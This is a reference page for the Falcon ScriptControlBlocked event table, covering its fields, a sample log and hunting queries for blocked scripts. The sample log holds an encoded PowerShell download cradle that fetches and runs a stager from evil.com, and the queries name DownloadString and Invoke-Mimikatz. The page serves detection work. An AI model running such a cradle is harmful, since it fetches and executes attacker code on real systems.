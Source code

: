 ## ScriptControlBlocked Table: Script Execution Blocked Event

### 1. Table Name
**ScriptControlBlocked**

---

### 2. Table Usage
This event is sent when Falcon Host has blocked malicious script content from being executed on a Windows machine. This event provides the details of exactly what content was blocked, which is invaluable for understanding and investigating prevented attacks, especially those involving fileless malware or obfuscated commands.

---

### 3. Important Parameter Description

| Parameter | Description | Platforms Affected |
|---|---|---|
| ImageFileName | The full path to the process hosting the script engine (e.g., `powershell.exe`, `wscript.exe`) whose execution was blocked. | Windows Only |
| ParentImageFileName | The full path to the parent process that spawned the script host. | Windows Only |
| CommandLine | The command line of the script host process that was blocked. | Windows Only |
| ScriptingLanguageId | An identifier for the scripting language that was blocked (e.g., PowerShell, VBScript, JScript). | Windows Only |
| ScriptContent | The full content of the script that was blocked from executing. | Windows Only |

---

### 4. Sample Log Example

```json
{
  "ImageFileName": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
  "ParentImageFileName": "C:\\Windows\\System32\\cmd.exe",
  "CommandLine": "powershell -enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZQB2AGkAbAAuAGMAbwBtAC8AcwB0AGEAZwBlAHIALgBwAHMAMQAnACkA",
  "ScriptingLanguageId": "1",
  "ScriptContent": "IEX(New-Object Net.WebClient).DownloadString('[http://evil.com/stager.ps1](http://evil.com/stager.ps1)')"
}
```
---

### 5. Example Queries
```xql
// Find all script control block events
event_simpleName=ScriptControlBlocked

// Find all blocked PowerShell scripts
event_simpleName=ScriptControlBlocked ImageFileName="*\\powershell.exe"

// Hunt for scripts blocked from executing out of a specific parent process, like an Office application
event_simpleName=ScriptControlBlocked ParentImageFileName IN ("*\\winword.exe", "*\\excel.exe")

// Search for specific suspicious commands within blocked script content
event_simpleName=ScriptControlBlocked ScriptContent="*DownloadString*" OR ScriptContent="*Invoke-Mimikatz*"

// Find blocked VBScripts or JScripts
event_simpleName=ScriptControlBlocked ScriptingLanguageId IN (4, 5)
```
---
